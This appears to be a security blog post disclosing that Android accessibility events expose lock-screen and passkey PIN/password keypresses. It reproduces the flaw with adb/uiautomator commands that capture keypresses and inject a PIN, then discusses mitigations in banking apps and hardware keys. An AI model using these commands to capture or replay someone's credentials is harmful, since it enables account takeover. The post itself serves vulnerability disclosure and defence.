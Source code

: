 ```yaml
---

layout: post

title:  "Could I read your PIN/PASSWORD from platform authenticator?"

date:   2024-01-03 14:15:58

author: severus

categories: Security

tags: privacy android accessibility security

---
```


## Android Accessibility Service
Android provides accessibility service for disabilities people. This service can access all events on phone's screen. The security hole is that it can access platform authenticator's values: pin, password. It introduces downgrading from biometric to PIN/PASS and reduces the security of Passkey/Fido2 (builtin android support in app, not physical fido2 tokens).

## Reproduce the flaw

Android has UIAutomation class and command: uiautomator, I use uiautomator - it's same as UIAutomation class but built as binary. 

After enabling adb, on lock screen, run command: 
```sh
adb shell uiautomator events | grep Text
``` 

The result looks like:
```sh
20:01-03 16:11:57.531 EventType: TYPE_VIEW_CLICKED; EventTime: 387545686; PackageName: com.android.systemui; MovementGranularity: 0; Action: 0; ContentChangeTypes: []; WindowChangeTypes: [] [ ClassName: android.view.ViewGroup; Text: [DEF, 3]; ContentDescription: 3; ItemCount: -1; CurrentItemIndex: -1; Enabled: true; Password: false; Checked: false; FullScreen: false; Scrollable: false; ImportantForAccessibility: true; AccessibilityDataSensitive: false; BeforeText: null; FromIndex: -1; ToIndex: -1; ScrollX: 0; ScrollY: 0; MaxScrollX: 0; MaxScrollY: 0; ScrollDeltaX: -1; ScrollDeltaY: -1; AddedCount: -1; RemovedCount: -1; ParcelableData: null; DisplayId: 0 ]; recordCount: 0
```
The plain key [DEF, 3] was there. Now, the accessibility service probably can read the input from platform authenticator. With key emulation, it can authenticate as user on screen with Passkey/Fido2 now.

```sh
adb shell input tap x y - switch from biometric to pin/password geometry.
adb shell input text 13337 - input pin/password.
```

## Prevention
I tested with: [Cake By VPBank](https://play.google.com/store/apps/details?id=xyz.be.cake&hl=en&gl=US) and [VCB Digi Bank](https://play.google.com/store/apps/details?id=com.VCB&hl=en&gl=US), the both are implemented correctly to prevent the service accessing password field:  
+ In VCB Digi Bank, they dispatch the accessibility events by delegating events.  
+ In Cake By VPBank, they show dot on accessibility Text value. But in fido2 mode - by default, it calls platform authenticator, still exposed pin/password to accessibility service. The password field is no matter here. 

It's very clear, the application must protect itself from accessibility service. 

Almost banking applications I tested do not have enough protection. 

The question is why google does not prevent accessibility obtaining the pin/password from authenticator platform. It's system level and it introduces new risk: downgrading from biometric to pin/password. 

Google promotes Passkey as new modern authentication method, but leaves the risk with user when platform authenticator is used. The application, indeed, must use biometric only by using [UserVerificationMethod](https://developers.google.com/android/reference/com/google/android/gms/fido/fido2/api/common/UserVerificationMethods). There is no other solution if you use platform authenticator until Google decides patching this issue. 

I have another solution, using physical tokens, which authenticate via NFC/Bluetooth like: VinCSS fido2 keys or Yubikey. 

## Conclusion
Some malwares still exploit this flaw to obtain pin/password to perform further privileged actions. 



